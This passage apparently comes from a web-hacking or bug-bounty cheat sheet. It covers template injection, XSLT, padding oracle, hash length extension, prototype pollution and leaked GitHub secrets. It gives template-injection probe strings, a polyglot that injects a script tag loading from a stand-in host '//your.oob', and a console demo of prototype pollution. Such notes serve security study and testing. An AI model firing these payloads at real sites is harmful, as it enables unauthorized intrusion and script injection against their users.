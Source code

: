 
48  >>>  Template Injection 
            

            ---> {{7*7}}
                ---> ${7*7}
                ---> %{7*7}
                ---> #{7*7}
                ---> %25{7*7}
                ---> {7*7}
                ---> ${{48*53}}`'";--><sCRIpt sRc=//your.oob></sCRIpt>


49  >>>  XSLT it is like xml document 
       
            --->XSLT to file read
                ---> XSLt to rce


50  >>>  Padding Oracle attack 


51  >>>  Hash Lenght Extension attack


53 >>>Prototype pollution

Prototype Pollution refers to the ability to inject properties into existing JavaScript language construct prototypes, such as objects.
An attacker manipulates these attributes to overwrite, or pollute, a JavaScript application object prototype of the base object by injecting other values.




https://www.youtube.com/watch?v=Gv1nK6Wj8qM                nahamsec video for prototype

https://www.youtube.com/watch?v=J3MIOIqvV8w                 good video for revison
https://www.youtube.com/watch?v=yDmOXhr8wmw

  >> a={}
Object {  }
>> b={}
Object {  }
>> b.__proto__.foo='bar';
"bar"
>> b.foo
"bar"
>> c={}
Object {  }
>> c.foo
"bar"
>> a.foo
"bar"




52  >>>  Git hub sensetive data exposes 

   Use truflehog tool 
   